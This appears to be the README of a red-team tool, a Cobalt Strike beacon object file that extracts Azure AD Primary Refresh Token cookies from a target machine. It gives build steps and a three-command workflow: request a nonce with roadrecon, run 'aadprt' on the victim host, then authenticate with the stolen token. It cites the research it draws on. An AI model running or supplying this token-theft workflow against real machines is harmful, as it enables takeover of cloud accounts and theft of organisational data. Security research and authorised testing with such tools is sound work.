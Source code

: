 # aad_prt_bof

This bof allows Cobalt Strike to extract Azure AD PRT tokens from the machine.
These tokens can then be used with tools like ROADTools to extract AAD information.

## How to compile
`make` for the beacon object files

`make test` for an executable

## Usage

After compiling, load the `aadprt.cna` file into Cobalt Strike.

1. Request a nonce using ROADrecon: `roadrecon auth --prt-init`
2. Request a token on the target machine: `aadprt [NONCE]`
3. Use the token to authenticate in ROADrecon (or any other tool): `roadrecon auth --prt-cookie [TOKEN]`
4. Profit!

## References

Heavily inspired by the awesome work and research of [Dirk-jan](https://twitter.com/_dirkjan) and [Lee](http://twitter.com/tifkin_).

- https://dirkjanm.io/abusing-azure-ad-sso-with-the-primary-refresh-token/
- https://github.com/dirkjanm/ROADtoken
- https://github.com/leechristensen/RequestAADRefreshToken
- https://github.com/trustedsec/CS-Situational-Awareness-BOF
